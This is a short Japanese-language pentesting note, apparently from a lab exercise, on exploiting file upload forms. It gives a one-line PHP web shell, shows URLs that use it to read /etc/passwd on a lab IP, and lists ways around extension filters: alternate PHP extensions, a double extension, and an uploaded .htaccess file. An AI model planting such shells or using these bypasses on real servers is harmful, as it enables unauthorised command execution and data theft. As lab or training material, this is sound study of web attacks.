

# <span style="color: blue;">Example 1</span>
```
<?php 
  system($_GET["cmd"]); 
?>
```
phpファイルを作成しファイルをuploadする。   
   

gobusterでアップロードしたファイルを探す   
　　　
  
```
http://192.168.100.185/upload/images/cmd.php?cmd=cat%20/etc/passwd
```
    
# <span style="color: blue;">Example 2</span>
拡張子の制限があるので.phpファイルをアップロードできない。
   
この制限を回避するには、次のいずれかの方法を使用できます。   
- 拡張子を .php3 に変更します。他のシステムでは、.php4 や .php5 のような拡張子でも動作する場合があります。これは、ウェブサーバーの設定に依存します。
- Apache が知らない拡張子 .blah を拡張子 .php の後に使用する。Apacheは拡張子.blahの扱い方を知らないので、次の拡張子.phpに移動し、PHPコードを実行します。
- .htaccessファイルをアップロードし、別の拡張子をPHPで実行できるようにする（このテクニックについては、PentesterLabのトレーニング：（SQLインジェクションからシェルへ：PostgreSQL編）[https://pentesterlab.com/fromsqlitoshellpg_edition.html]で詳しく学ぶことができます）。   

これらの方法のいずれかを使用すると、コマンドを実行できるはずです。
```
http://192.168.100.185/upload/images/cmd.php3?cmd=cat%20/etc/passwd
```

   

```
http://192.168.100.185/upload/images/cmd.php.blah?cmd=cat%20/etc/passwd
```

